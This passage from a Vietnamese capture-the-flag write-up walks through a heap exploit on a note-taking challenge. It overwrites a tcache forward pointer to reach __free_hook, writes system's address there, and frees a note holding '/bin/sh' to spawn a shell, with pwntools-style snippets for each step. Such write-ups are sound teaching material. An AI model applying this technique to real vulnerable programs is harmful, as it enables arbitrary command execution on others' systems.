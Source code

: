 Tại sao ta cần tính địa chỉ của free_hook? Vì ta sẽ overwrite giá trị của free_hook thành địa chỉ system để khi thực thi hàm free(), ta sẽ gọi được tới system. Tương tự như trên, ta vẫn sẽ overwrite forward pointer để ghi đè:

```
Delete(2)
Delete(1)

Edit(1, p64(__free_hook_addr))
```

Và ta chỉ việc tạo 2 note, note đầu sẽ chứa chuỗi "/bin/sh" (vì tạo lần đầu sẽ vẫn trỏ vào địa chỉ heap bình thường). Note thứ 2 (đã trỏ về địa free_hook) ta sẽ ghi địa chỉ system vào:

```
Add(7, 0x50, b'/bin/sh\x00')
Add(8, 0x50, p64(system_addr))
```

Cuối cùng, ta chỉ việc xóa note với index 7 đi là xong:

```
p.sendline(b'4')
p.recvuntil(b'Index: ')
p.sendline(b'7')
```

# 4. Lấy cờ

Đây là full source code: [solve.py](solve.py)

Do mình thực hiện writeup này lúc server đã down nên không có minh chứng về việc kết nối. Vì thế mình sẽ chạy trên local của mình nhé.

![get_flag](images/get_flag.png)
